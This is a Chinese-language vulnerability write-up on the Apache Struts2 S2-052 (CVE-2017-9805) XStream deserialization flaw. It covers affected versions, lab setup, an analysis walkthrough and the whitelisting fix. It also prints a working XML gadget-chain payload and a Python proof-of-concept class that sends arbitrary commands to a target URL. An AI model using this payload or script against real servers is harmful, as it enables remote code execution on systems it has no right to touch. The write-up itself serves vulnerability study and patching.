






* [目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#目录)
   * [前言](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#前言)
   * [Struts简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#struts简介)
   * [漏洞复现](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞复现)
      * [漏洞简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞简介)
         * [漏洞成因](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞成因)
         * [漏洞影响范围](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞影响范围)
      * [环境搭建](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#环境搭建)
      * [Payload](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#payload)
         * [执行命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#执行命令)
      * [POC](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#poc)
   * [漏洞分析](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞分析)
   * [漏洞修复](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#漏洞修复)
   * [总结](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#总结)
   * [参考](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-052/S2-052.md#参考)

## 前言

> 这是Struts系列第十四篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> S2-052漏洞,又名CVE-2017-9805漏洞

> 当Struts2使用了Struts2-Rest-Plugin插件时,如果http请求头中的Content-type为 application/xml时会使用XStreamHandler解析器实例化XStream对象来反序列化处理传入的XML数据,并且在默认情况下是可以引入任意对象的(针对1.5.x以前的版本),所以可以通过反序列化引入任意类造成远程命令执行漏洞.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-052)

#### 漏洞成因

> 当Struts2使用了Struts2-Rest-Plugin插件时,如果http请求头中的Content-type为 application/xml时会使用XStreamHandler解析器实例化XStream对象来反序列化处理传入的XML数据,并且在默认情况下是可以引入任意对象的(针对1.5.x以前的版本),所以可以通过反序列化引入任意类造成远程命令执行漏洞.

#### 漏洞影响范围

> Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

### 环境搭建

> 解压缩本目录下的Struts-VulnTest.zip,使用IDEA打开解压后的目录,然后配置好Tomcat和Maven就可以运行了.

### Payload

#### 执行命令

```java
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
        <flags>0</flags>
        <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
            <dataHandler>
            <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
                <is class="javax.crypto.CipherInputStream">
                <cipher class="javax.crypto.NullCipher">
                    <initialized>false</initialized>
                    <opmode>0</opmode>
                    <serviceIterator class="javax.imageio.spi.FilterIterator">
                    <iter class="javax.imageio.spi.FilterIterator">
                        <iter class="java.util.Collections$EmptyIterator"/>
                        <next class="java.lang.ProcessBuilder">
                        <command>
                            <string>open</string>
                            <string>-a</string>
                            <string>Calculator</string>
                        </command>
                        <redirectErrorStream>false</redirectErrorStream>
                        </next>
                    </iter>
                    <filter class="javax.imageio.ImageIO$ContainsFilter">
                        <method>
                        <class>java.lang.ProcessBuilder</class>
                        <name>start</name>
                        <parameter-types/>
                        </method>
                        <name>foo</name>
                    </filter>
                    <next class="string">foo</next>
                    </serviceIterator>
                    <lock/>
                </cipher>
                <input class="java.lang.ProcessBuilder$NullInputStream"/>
                <ibuffer></ibuffer>
                <done>false</done>
                <ostart>0</ostart>
                <ofinish>0</ofinish>
                <closed>false</closed>
                </is>
                <consumed>false</consumed>
            </dataSource>
            <transferFlavors/>
            </dataHandler>
            <dataLen>0</dataLen>
        </value>
        </jdk.nashorn.internal.objects.NativeString>
        <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
    </entry>
    <entry>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    </entry>
</map>          
```

### POC

```python
#!/usr/bin/env python3

import requests

class S2_052_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'S2-052漏洞,又名CVE-2017-9805漏洞',
            'description': 'Struts2 Remote Code Execution Vulnerability, Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12',
            'date': '2017-09-05',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/xml",
        }
        self.payload ='''
                    <map>
                        <entry>
                            <jdk.nashorn.internal.objects.NativeString>
                            <flags>0</flags>
                            <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
                                <dataHandler>
                                <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
                                    <is class="javax.crypto.CipherInputStream">
                                    <cipher class="javax.crypto.NullCipher">
                                        <initialized>false</initialized>
                                        <opmode>0</opmode>
                                        <serviceIterator class="javax.imageio.spi.FilterIterator">
                                        <iter class="javax.imageio.spi.FilterIterator">
                                            <iter class="java.util.Collections$EmptyIterator"/>
                                            <next class="java.lang.ProcessBuilder">
                                            <command>
                                                {cmd}
                                            </command>
                                            <redirectErrorStream>false</redirectErrorStream>
                                            </next>
                                        </iter>
                                        <filter class="javax.imageio.ImageIO$ContainsFilter">
                                            <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                            </method>
                                            <name>foo</name>
                                        </filter>
                                        <next class="string">foo</next>
                                        </serviceIterator>
                                        <lock/>
                                    </cipher>
                                    <input class="java.lang.ProcessBuilder$NullInputStream"/>
                                    <ibuffer></ibuffer>
                                    <done>false</done>
                                    <ostart>0</ostart>
                                    <ofinish>0</ofinish>
                                    <closed>false</closed>
                                    </is>
                                    <consumed>false</consumed>
                                </dataSource>
                                <transferFlavors/>
                                </dataHandler>
                                <dataLen>0</dataLen>
                            </value>
                            </jdk.nashorn.internal.objects.NativeString>
                            <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
                        </entry>
                        <entry>
                            <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
                            <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
                        </entry>
                    </map>
                '''

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        try:
            self.check_payload = self.payload.format(cmd = '<string>calc</string>')
            check_req = requests.post(self.url, headers = self.headers, data = self.check_payload)
            if check_req.status_code == 500 and 'java.security.Provider$Service' in check_req.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass
    
    def cmd(self, cmd):

        """
        执行命令

        :param str cmd: 要执行的命令

        :return tuple result: 执行的结果
        """

        try:
            if self.run():
                cmd_list = cmd.split(' ')
                cmd_str = ''
                for key in cmd_list:
                    cmd_str = cmd_str + "<string>" + key + "</string>"
                self.cmd_payload = self.payload.format(cmd = cmd_str)
                cmd_req = requests.post(self.url, headers = self.headers, data = self.cmd_payload)
                return True, '命令已执行,但无法回显'
            else:
                return False, '不存在S2_052漏洞'
        except Exception as e:
            return False, e
        finally:
            pass

if  __name__ == "__main__":
    S2_052 = S2_052_BaseVerify('http://127.0.0.1:8088/struts2_rest_showcase_war_exploded/orders/3')
    print(S2_052.run())
    print(S2_052.cmd('open -a Calculator'))
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.首先来看下struts-plugin.xml配置文件,可看到当Content-Type为xml时,处理类为org.apache.struts2.rest.handler.XStreamHandler



&emsp;&emsp;&emsp;&emsp;2.org.apache.struts2.rest.handler.XStreamHandler中第31行打断点





&emsp;&emsp;&emsp;&emsp;3.当请求内容不为0时,进入反序列化的流程,F7进入toObject方法



&emsp;&emsp;&emsp;&emsp;4.首先实例化XStream对象,然后调用fromXML进行xml反序列化.F7进入fromXML方法



&emsp;&emsp;&emsp;&emsp;5.开始反序列化.详情可参考[Xstream反序列化漏洞](https://www.anquanke.com/post/id/204314),就不再深入分析了.



## 漏洞修复

> 在XStreamHandler类中修改了createXStream方法

```java
protected XStream createXStream(ActionInvocation invocation) {

    XStream stream = new XStream();

    LOG.debug("Clears existing permissions");

    stream.addPermission(NoTypePermission.NONE);


    LOG.debug("Adds per action permissions");

    addPerActionPermission(invocation, stream);


    LOG.debug("Adds default permissions");

    addDefaultPermissions(invocation, stream);

    return stream;

}
```

> 这些代码的主要作用是将xml中的数据白名单化,把Collection和Map、一些基础类、时间类放在白名单中,这样就能防止XStream反序列化的过程中带入一些有害类.

```java
private void addPerActionPermission(ActionInvocation invocation, XStream stream) {

    Object action = invocation.getAction();

    if (action instanceof AllowedClasses) {

        Set<Class<?>> allowedClasses = ((AllowedClasses) action).allowedClasses();

        stream.addPermission(new ExplicitTypePermission(allowedClasses.toArray(new Class[allowedClasses.size()])));

    }

    if (action instanceof AllowedClassNames) {

        Set<String> allowedClassNames = ((AllowedClassNames) action).allowedClassNames();

        stream.addPermission(new ExplicitTypePermission(allowedClassNames.toArray(new String[allowedClassNames.size()])));

    }

    if (action instanceof XStreamPermissionProvider) {

        Collection<TypePermission> permissions = ((XStreamPermissionProvider) action).getTypePermissions();
        for (TypePermission permission : permissions) {
            stream.addPermission(permission);
        }
    }
}

protected void addDefaultPermissions(ActionInvocation invocation, XStream stream) {

    stream.addPermission(new ExplicitTypePermission(new Class[]{invocation.getAction().getClass()}));

    if (invocation.getAction() instanceof ModelDriven) {

        stream.addPermission(new ExplicitTypePermission(new Class[]{((ModelDriven) invocation.getAction()).getModel().getClass()}));

    }

    stream.addPermission(NullPermission.NULL);

    stream.addPermission(PrimitiveTypePermission.PRIMITIVES);

    stream.addPermission(ArrayTypePermission.ARRAYS);

    stream.addPermission(CollectionTypePermission.COLLECTIONS);

    stream.addPermission(new ExplicitTypePermission(new Class[]{Date.class}));

}

private static class CollectionTypePermission implements TypePermission {
    private static final TypePermission COLLECTIONS = new CollectionTypePermission();

    @Override

    public boolean allows(Class type) {

        return type != null && type.isInterface() &&

          (Collection.class.isAssignableFrom(type) || Map.class.isAssignableFrom(type));

    }

}
```

## 总结

> 这个漏洞不再是利用的ongl表达式执行命令,而是通过XStream的反序列化

## 参考

> https://mp.weixin.qq.com/s/Yd2NZIkzhMEaM6UiU_M9_Q

> https://kingx.me/Struts2-S2-052.html

> https://cwiki.apache.org/confluence/display/WW/S2-052

> https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md

